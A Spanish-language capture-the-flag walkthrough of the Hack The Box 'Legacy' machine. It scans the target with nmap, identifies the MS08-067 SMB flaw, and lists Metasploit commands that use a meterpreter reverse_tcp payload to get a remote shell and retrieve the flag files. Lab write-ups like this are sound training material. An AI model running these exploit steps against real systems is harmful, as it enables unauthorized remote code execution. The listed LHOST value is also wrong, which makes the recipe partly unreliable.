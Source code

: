 ```yaml
---
{"-publish":true,"permalink":"/hack-the-box/machines/easy/legacy/","PassFrontmatter":true}
---
```


Empezamos haciendo un nmap a la maquina:

```
nmap -sCV -T5 10.10.10.4 -oN legacy_machine
```

![Pasted image 20250522172723.png](/img/user/imgs/Pasted%20image%2020250522172723.png)

Observamos que la maquina es un windows XP lo cual puede indicar que quiza es vulnerable a SMB, enumeramos:

```
nmap -p 445 --script smb-vuln* 10.10.10.4
```

![Pasted image 20250522173331.png](/img/user/imgs/Pasted%20image%2020250522173331.png)

Notamos que es vulnerable a CVE:CVE-2017-0143 ->EternalBlue y > **MS08-067: Microsoft Windows Server Service Vulnerability**

Descripcion: Esta vulnerabilidad critica del servicio de red de Windows (Server Service) que permite ejecucion remota de codigo (RCE) mediante paquetes especialmente creados enviados a traves del puerto 139 o 445 (SMB).

## Sistemas afectados:

- Windows XP
- Windows Server 2003
- Windows Vista
- Windows Server 2008 (versiones antiguas)
- Windows 2000

## Impacto

- Permite ejecucion remoda de codigo sin autenticacion.
- Fue ampliamente explotada por gusanos como Conficker.

Vamos a probar explotar esta vulnerabilidad con metasploit:

## Explotacion con Metasploit:

- use exploit/windows/smb/ms08_067_netapi
- set RHOST 10.10.10.4
- set PAYLOAD windows/meterpreter/reverse_tcp
- set LHOST 10.10.10.4
- run

![Pasted image 20250522174921.png](/img/user/imgs/Pasted%20image%2020250522174921.png)

Si queremos saber bajo que usuario se ejecuta el exploit potemos colocar en el **meterpreter> getuid**

![Pasted image 20250522175033.png](/img/user/imgs/Pasted%20image%2020250522175033.png)
Luego colocar un shell para ser mas interactivos y buscamos el user.txt y el root.txt

En este caso como estamos en Windows XP, los usuarios los encontramos en **dir C:\\Documents and Settings**

![Pasted image 20250522175409.png](/img/user/imgs/Pasted%20image%2020250522175409.png)

Vamos a john para el user.txt:

![[Pasted image 20250522175504.png\|Pasted image 20250522175504.png]]

Vamos a administrator para el root.txt:

![[Pasted image 20250522175546.png\|Pasted image 20250522175546.png]]

thanks.